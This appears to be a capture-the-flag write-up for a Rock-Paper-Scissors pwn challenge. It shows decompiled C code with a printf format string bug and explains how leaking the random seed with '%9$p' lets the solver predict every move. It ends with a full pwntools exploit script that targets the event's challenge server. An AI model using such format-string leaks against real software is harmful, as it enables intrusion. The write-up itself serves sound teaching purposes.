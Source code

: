 This challenge was the third pwn challenge I solved during the event. It was a simple 64-bit binary, which printed the flag to us if we won Rock-Paper-Scissors 50 times in a row.
The odds of us actually winning this many times are incredibly slim, so we needed to find a vulnerability.
Let's put the binary in IDA and take a closer look at what the code does.

```c

__int64 rps()
{
  char player_choice; // [rsp+Eh] [rbp-12h] BYREF
  char computer_choice; // [rsp+Fh] [rbp-11h]
  int flush_char; // [rsp+10h] [rbp-10h]
  _BYTE possiblities[3]; // [rsp+15h] [rbp-Bh] BYREF
  unsigned __int64 canary; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);
  player_choice = 0;
  qmemcpy(possiblities, "rps", sizeof(possiblities));
  computer_choice = possiblities[rand() % 3];
  puts("Let's play!");
  while ( player_choice != 'r' && player_choice != 'p' && player_choice != 's' )
  {
    printf("Enter your choice (r/p/s): ");
    __isoc99_scanf("%c", &player_choice);
    do
      flush_char = getchar();
    while ( flush_char != '\n' && flush_char != -1 );
  }
  if ( player_choice == 'r' && computer_choice == 's'
    || player_choice == 'p' && computer_choice == 'r'
    || player_choice == 's' && computer_choice == 'p' )
  {
    puts("You win!");
    return 1LL;
  }
  else
  {
    puts("You lost.");
    return 0LL;
  }
}

int main(){
  fd = open("/dev/urandom", 0);
    if ( fd < 0 )
    {
      printf("Opening /dev/urandom failed");
      exit(1);
    }
    read(fd, &buf, 4uLL);
    close(fd);
    srand(buf);
    printf("Enter your name: ");
    fgets(s, 20, stdin);
    printf("Hi ");
    printf(s);
    puts("Let's play some Rock Paper Scissors!");
    puts("If you beat me 50 times in a row I'll give you a special prize.");
    for ( i = 0; i <= 49; ++i )
    {
      if ( (unsigned __int8)rps() != 1 )
      {
        puts("You didn't beat me enough times. Too bad!");
        exit(1);
      }
    }
    win();
}
```

The program will prompt us for a name and print it using printf. There is a clear FSB vulnerability here. FSBs are a powerful primitive and can be used to perform arbitrary writes and reads, as well as easily leak stack data from the stack.
Our goal is to win 50 times. The computer will read its seed from /dev/urandom and store it in the stack. With FSB, we can leak the value and predict the random numbers!
After some trial and error, I noticed that the seed was stored at %9$p. I then used the ctypes library to use the srand and rand functions. Here is my final script:

```py
from pwn import *
from ctypes import CDLL, c_char_p

libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

p = remote("vsc.tf" , 3094)
p.recvuntil("name: ")

p.sendline("%9$p")


p.recvuntil("Hi ")

seed = int(p.recvn(10), 16)

libc.srand(seed)

print(hex(seed))

win = {
	"s": "r",
	"r": "p",
	"p": "s"
}
p.recvuntil("prize.")
p.recvuntil("play!")

for i in range(50):
	pc = "rps"[libc.rand() % 3]
	p.recvuntil("Enter your choice (r/p/s): ")
	p.sendline(win[pc])

p.interactive()
```
